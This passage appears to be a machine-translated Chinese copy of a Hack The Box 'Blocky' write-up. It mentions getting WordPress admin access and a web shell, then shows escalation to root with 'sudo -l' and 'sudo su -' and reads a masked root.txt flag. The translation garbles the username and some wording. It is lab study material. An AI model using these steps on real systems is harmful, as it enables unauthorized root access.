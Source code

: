 可以更改密钥，获得WP管理员访问权限，并制作网络外壳，从而提供w数据访问权限

## Priv： 缺口 –> 根

这可能是我在HTB上看到的最简单的根。 要求输入密码，但我有密码：`sudo -l`

    notch@Blocky:~$ sudo -l
    [sudo] password for notch: 
    Matching Defaults entries for notch on Blocky:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User notch may run the following commands on Blocky:
        (ALL : ALL) ALL
    

我可以用缺口运行任何东西。所以我会选择，我是根：`sudo``bash`

    notch@Blocky:~$ sudo su - 
    root@Blocky:~#
    

我会抓住：`root.txt`

    root@Blocky:~# cat root.txt 
    0a9694a5************************
    

我怀疑我也可以在这里使用内核漏洞，但我会把它留给读者作为练习。

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2020/06/30/htb-blocky.html)